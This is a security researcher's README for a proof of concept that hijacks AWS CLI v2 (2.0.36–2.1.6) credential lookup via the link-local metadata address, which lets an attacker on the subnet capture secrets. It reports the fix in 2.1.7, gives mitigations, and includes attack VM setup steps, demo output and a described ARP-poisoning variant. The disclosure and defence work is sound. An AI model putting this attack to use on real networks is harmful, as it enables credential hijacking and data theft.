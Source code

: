 # cli-hijacker

## Update

This issue was fixed as of AWS CLI 2.1.7.

I want to thank the AWS Sec team for their fast response on this, the fix was merged the next day and released the day after that. I recommend downloading the most recent version if you are using awscli v2 as it will not work with this PoC.

### Summary

Versions 2.0.36 through 2.1.6 leaked info via the user agent that allowed this attack to operate semi-covertly. The underlying mechanism behind the attack still works, as it did before 2.0.36, but without knowing the command that the user is running before hand it is difficult to abuse. See [Prior to 3.0.36](#prior-to-3.0.36) for more info about how other versions of awscli could potentially be abused.

For reference I wrote this post below some time ago about the general underlying issue, it is still relevant to all versions of awscli/SDK.

https://blog.ryanjarv.sh/2020/10/17/abusing-the-aws-sdk.html

As a work around for future potential issues like this I recommend one or all of the following:
* sudo sh -c "echo 'AWS_EC2_METADATA_DISABLED=true' >> /etc/profile"
* Make sure your default profile is set
  * Personally if you manage multiple accounts I would put fake creds here. Just a good idea in general to avoid connecting to the wrong account accidentally.
* Set 169.254.169.254 on your loopback adapter.
  * MacOS/BSD varients: `sudo ifconfig lo0 add 169.254.169.254`
  * Linux: `ip addr add 169.254.169.254 dev lo0`
  * I haven't tested this attack against windows, or used ipconfig in a while, but will update this next time I get the chance. PR's also welcome here if you're able to try it.

The first two can workarounds can still fail in cases where you're using docker. I believe the third will cover that case though (TODO: test this).


## Running Attacker VM

```
## Private repo
git clone git@github.com:RyanJarv/cli-hijacker.git vagrant/cli-hijacker
vagrant up
vagrant ssh
```

Then in the vm as root:
```
./scripts/setup.sh
./scripts/run.sh
./scripts/monitor_http.sh
```

## On Your Host

### Conditions

* Using a computer that uses link-local routing
* You don't have a default profile set 
* Are using awscli 2.0.36 through 2.1.6

### Testing it

You should see behavior like this:
```
% aws s3 ls                                                                     
Unable to locate credentials. You can configure credentials by running "aws configure".
ryan@Jarvs-MacBook-Pro aws_cli_hijacking % aws sts get-caller-identity                                                   
{
    "UserId": "AIDAQWYJ4KRIICCD42BCI",
    "Account": "048875983952",
    "Arn": "arn:aws:iam::048875983952:user/attacker"
}
% aws s3 ls                  
Unable to locate credentials. You can configure credentials by running "aws configure".
ryan@Jarvs-MacBook-Pro aws_cli_hijacking % aws ssm put-parameter --name /mys3cr3t --value sup3rs3cr3t --type SecureString
{
    "Version": 1,
    "Tier": "Standard"
}
% aws s3 ls                                                                     
Unable to locate credentials. You can configure credentials by running "aws configure".
```

You should find the secret 'sup3rs3cr3t' uploaded to the attackers account at /mys3cr3t.

### Troubleshooting

If you don't see output from the monitor_http.sh script and you've used aws-vault in the past, there's a good chance requests are being routed to 169.254.169.254 on your hosts loopeback interface. aws-vault I believe is supposed to remove this when it shuts down but many times it get's left. Try deleting that address to see if that fixes it.

For MacOS:

```
sudo ifconfig lo0 delete 169.254.169.254
```

For Linux:
```
sudo ip addr delete 169.254.169.254 dev lo0
```

## Why

The idea is that you can sit on the local subnet and wait for someone, who:

* doesn't have a default profile set, and:
* accidentally forget's to target a specific account, while:
* they are running a vulnerable api call, with:
* aws cli 2.0.36 through 2.1.6

With these conditions you can control the account the user run's the api call against.

## Prior to 2.0.36

If aws cli is older then you can do the same thing however it's not as reliable and from the victim's perspective fairly noisy. This is because it was difficult to know what command the user is attempting to run at the point you need to serve the credentials.

What ends up happening in the later case it's easiest to simply respond with the attacker's credentials for every request (or possibly only randomly) and hope it end's up being something useful to you. In any case details of the request, will end up in cloudtrail, and you can gather info that way.

Despite it being difficult to predict the command running I wouldn't rely on simply reverting to pre 2.36 behavior alone. In another PoC I was able to achieve the same thing this one does with the exception of showing a different error message, making this difficult to remain undetected while waiting for the above conditions to be met. This other PoC relied on ARP poisoning the victim, serving expired credentials, scraping SNI, reseting the condition to the client and allowing/disallowing retry attempts based on the scraped SNI. This was a fairly complex approach but a better option may have been to monitor DNS if you are in similar position. In any case it's easy to leak metadata.

## Running The Victim Machine

If you'd rather test this in a VM you can use the [victim](./victim) vagrant configuration. Alternatively this is an example of what happens if the victim doesn't use link local routing but a layer 3 hop upstream does.

### Conditions

* Using a host computer that uses link-local routing

### Running it

```
% cd vagrant
% vagrant up
% vagrant ssh
```

Then in the vm, we can run the same commands shown above and should get the same output:
```
% aws s3 # no creds error
% aws sts get-caller-identity # works
% aws s3 ls # no creds error       
% aws ssm put-parameter --name /mys3cr3t --value sup3rs3cr3t --type SecureString # works
% aws s3 ls # no creds error                                                                     
```
